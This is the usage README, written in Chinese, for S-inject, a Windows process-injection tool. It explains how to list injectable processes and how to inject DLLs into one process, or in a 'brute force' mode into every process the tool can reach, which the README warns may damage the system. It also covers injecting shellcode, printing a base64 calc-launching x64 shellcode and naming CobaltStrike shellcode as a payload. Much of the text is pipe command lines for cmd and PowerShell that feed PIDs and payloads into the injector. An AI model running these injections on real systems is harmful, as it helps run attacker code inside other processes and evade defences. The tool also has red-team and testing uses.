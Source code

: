 # 1.x版本使用步骤

非交互式终端使用管道传参

- 注意cmd和powershell的区别
- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## 一般步骤

1. 运行程序
2. 输入7，遍历出能被注入的进程的pid
3. 选择你的注入方式

## DLL自动注入/遍历注入

- 自动注入

  DLL注入的功能中输入让`pid=0`，如果遇到一个能够被注入的进程那么就会注入，成功注入可能性低

  ![image-20240401105145205](D:\Github\S-inject\old_README.assets\image-20240401105145205.png)

- 暴力注入- **可能对系统造成损害**

  `S-inject.exe <任意值>`，确保启动参数`argc`等于2

  DLL注入的功能中输入让`pid=0`

  程序遍历所有可被注入程序，对每一个能被注入的进程进行DLL注入

  ![image-20240401105329537](D:\Github\S-inject\old_README.assets\image-20240401105329537.png)

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```

![image-20240205135709302](D:\Github\S-inject\old_README.assets\image-20240205135709302.png)

以CobaltStrike Shellcode为例子

![image-20240205140305351](D:\Github\S-inject\old_README.assets\image-20240205140305351.png)

### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```

![image-20240205140815069](D:\Github\S-inject\old_README.assets\image-20240205140815069.png)

## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程

![image-20240205125036362](D:\Github\S-inject\old_README.assets\image-20240205125036362.png)

### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131438254](D:\Github\S-inject\old_README.assets\image-20240205131438254.png)

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131316348](D:\Github\S-inject\old_README.assets\image-20240205131316348.png)

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205135210534](D:\Github\S-inject\old_README.assets\image-20240205135210534.png)









